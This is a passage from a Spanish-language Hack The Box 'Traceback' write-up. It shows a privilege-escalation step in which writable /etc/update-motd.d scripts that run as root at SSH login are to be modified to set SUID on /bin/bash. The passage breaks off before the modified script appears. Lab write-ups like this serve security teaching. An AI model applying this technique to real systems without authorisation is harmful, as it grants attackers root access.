 Aquí ya vemos algo que nos llama la atención que es el directorio `/etc/update-motd.d`:

```bash
sysadmin@traceback:/$ cd /etc/update-motd.d
sysadmin@traceback:/etc/update-motd.d$ ls -l
total 24
-rwxrwxr-x 1 root sysadmin  981 Feb  5 20:58 00-header
-rwxrwxr-x 1 root sysadmin  982 Feb  5 20:58 10-help-text
-rwxrwxr-x 1 root sysadmin 4264 Feb  5 20:58 50-motd-news
-rwxrwxr-x 1 root sysadmin  604 Feb  5 20:58 80-esm
-rwxrwxr-x 1 root sysadmin  299 Feb  5 20:58 91-release-upgrade
sysadmin@traceback:/etc/update-motd.d$
```

Y vemos que tenemos permisos de lectura, escritura y ejecución de todos los archivos alojados aquí. Así que podríamos tratar de usar el archivo `00-header` el cual nos nuestra el header cuando iniciamos sesión por SSH; esto lo podemos validar buscando la frase **Welcome to Xh4H land** de forma recursiva en todos los archivos:

```bash
sysadmin@traceback:/$ grep -r -i "Welcome to Xh4H land" 2>/dev/null
etc/update-motd.d/00-header:echo "\nWelcome to Xh4H land \n"
var/backups/.update-motd.d/00-header:echo "\nWelcome to Xh4H land \n"
^C
sysadmin@traceback:/$
```

Si leemos el contenido del archivo `00-header`, vemos que se trata de un script en bash, por lo tanto podríamos tratar de darle permisos SUID a la `/bin/bash` agregando el comando al final de todo.

```bash
sysadmin@traceback:/etc/update-motd.d$ cat 00-header 
#!/bin/sh
#
#    00-header - create the header of the MOTD
#    Copyright (C) 2009-2010 Canonical Ltd.
#
#    Authors: Dustin Kirkland <kirkland@canonical.com>
#
#    This program is free software; you can redistribute it and/or modify
#    it under the terms of the GNU General Public License as published by
#    the Free Software Foundation; either version 2 of the License, or
#    (at your option) any later version.
#
#    This program is distributed in the hope that it will be useful,
#    but WITHOUT ANY WARRANTY; without even the implied warranty of
#    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#    GNU General Public License for more details.
#
#    You should have received a copy of the GNU General Public License along
#    with this program; if not, write to the Free Software Foundation, Inc.,
#    51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.

[ -r /etc/lsb-release ] && . /etc/lsb-release


echo "\nWelcome to Xh4H land \n"
sysadmin@traceback:/etc/update-motd.d$
sysadmin@traceback:/etc/update-motd.d$ nano 00-header 
Unable to create directory /home/webadmin/.local/share/nano/: Permission denied
It is required for saving/loading search history or cursor positions.

Press Enter to continue

sysadmin@traceback:/etc/update-motd.d$ cat 00-header 
#!/bin/sh
#
```